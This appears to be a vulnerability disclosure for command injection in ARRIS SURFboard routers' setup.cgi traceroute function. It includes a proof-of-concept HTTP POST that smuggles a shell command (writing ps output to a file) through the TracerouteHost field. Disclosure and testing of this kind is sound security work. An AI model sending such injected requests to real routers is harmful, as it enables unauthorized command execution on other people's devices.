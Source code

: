 # ARRIS Vulnerability

Vendor:ARRIS

Product:SBR-AC1900P、SBR-AC3200P、SBR-AC1200P

Version:1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000REKViAAP&c=SURFboard%20Routers#panel4)

1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlajgAAB&c=SURFboard%20Routers#panel4)

1.0.5-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000RpnMpAAJ&c=SURFboard%20Routers#panel4)

Type:Remote Command Execution



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `traceroute ` function, `TracerouteHost` is directly passed by the attacker, so we can control the `TracerouteHost` to attack the OS.

As you can see here, the input has not been checked.And then,call the function `scnvram_set` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

As you can see here, in `sub_1DE34` function, the initial input has not checked and cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.What’s more interesting is that in the front-end interface, the user’s input is not checked either.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

> Complete vulnerability verification on SBR-AC1900P product



## PoC

We set `TracerouteHost` as **`%3B%2Fusr%2Fsbin%2Fps%3E.%2Fhack.txt%3B`** , The meaning of this command is **;/usr/sbin/ps>./hack.txt;**，and the router will excute it,such as:

```http
POST /setup.cgi?id=56b9ca80 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 475
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/setup.cgi?next_file=RgDiagnostics.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

DiagnosticMode=trace&PingDestinationIP0=&PingDestinationIP1=&PingDestinationIP2=&PingDestinationIP3=&ping_lan_size=64&ping_lan_num=3&ping_lan_interval=1&WANIP0=&WANIP1=&WANIP2=&WANIP3=&ping_wan_size=64&ping_wan_num=3&ping_wan_interval=1&TracerouteHost=%3B%2Fusr%2Fsbin%2Fps%3E.%2Fhack.txt%3B&TracerouteMaxHops=30&TracerouteDataSize=32&TracerouteBasePort=33434&TracerouteResolveHost=0&startping=Start+Test&UtilityStatus=&this_file=RgDiagnostics.htm&next_file=RgDiagnostics.htm
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## Result

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>
